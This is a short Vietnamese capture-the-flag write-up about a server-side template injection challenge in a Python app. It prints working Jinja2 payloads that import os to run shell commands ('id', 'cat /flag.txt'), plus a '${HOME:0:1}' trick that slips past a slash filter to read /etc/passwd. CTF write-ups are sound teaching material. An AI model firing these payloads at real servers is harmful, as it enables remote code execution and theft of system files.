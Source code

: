 ## Simple SSTI

![alt text](image.png)

Như tiêu đề thì bài này liên quan đến ssti, tuy nhiên phải thử thì mới biết được nó dùng thư viện nào.

![alt text](image-1.png)

Nhìn như này thì khả năng cao được viết bằng python, vì vậy mình tiến hành đi test các payload

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![alt text](image-2.png)

Và giờ mình chỉ cần đọc flag là được

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![alt text](image-3.png)

Tuy nhiên lại không đọc được, sau khi mình thử mấy lần thì thấy khả năng cao là '/' không được chấp nhận, nên mình tìm cách bypass

```
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

Đoạn này sẽ giúp chúng ta bypass được dấu /, liên quan tới command injection

Chall này khá hay kết hợp cả ssti và cmli bypass

![alt text](image-4.png)

Source reference:

https://viblo.asia/p/server-side-template-injection-vulnerabilities-ssti-cac-lo-hong-ssti-phan-2-qPoL775jLvk